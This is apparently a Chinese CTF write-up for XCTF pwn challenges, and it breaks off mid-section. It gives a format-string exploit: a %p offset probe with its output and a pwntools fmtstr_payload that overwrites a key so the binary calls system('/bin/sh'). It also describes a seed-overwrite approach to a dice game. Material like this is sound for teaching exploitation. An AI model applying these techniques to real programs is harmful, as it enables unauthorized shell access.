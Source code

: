 ## 实时数据监测
格式化字符串漏洞:
```c
printf(&s);
if ( key == 35795746 )
    result = system("/bin/sh")
```
**查看偏移**：

dudu@kali:~/桌面/learn/pwn/xctf/进阶$ ./实时数据监测 

输入：AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p

AAAA-0xf7f662c0-0xffae5664-(nil)-0xf7f30000-0xf7f30000-0xffae5618-0x80484e7-0xffae5410-0x200-0xf7f30580-0xf7f5556d-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025

The location of key is 0804a048, and its value is 00000000,not the 0x02223322. (╯°Д°)╯︵ ┻━┻

fmtstr_payload是pwntools里面的一个工具，用来简化对格式化字符串漏洞的构造工作。

实际上我们常用的形式是fmtstr_payload(offset,{address1:value1})

**payload**:
```python
payload=fmtstr_payload(12,{0x804a048:0x2223322})
```
## dice_game
与guess_num题目相同。出现srand(seed[0])语句，套路是输入字符串覆盖加密种子。之前果然有输入语句：v6 =  = read(0, buf, 0x50uLL);

溢出：
```c
  v6 = read(0, buf, 0x50uLL);   //本身不存在缓冲区溢出漏洞
  srand(seed[0]);
```
该题的逻辑是输入数字，与系统的随机数进行50次比较，如果全对，则得到flag。

```c
  _isoc99_scanf("%hd", &v1);  //v1为输入的数字0～6
  if ( v1 > 0 && v1 <= 6 )
  {
    v2 = rand() % 6 + 1;            //v2为系统生成的随机数
     if ( v1 == v2 )
    {
      puts("You win.");
      result = 1LL;
    }
    else
    {
      puts("You lost.");
      result = 0LL;
    }
  }
```

查看栈帧：
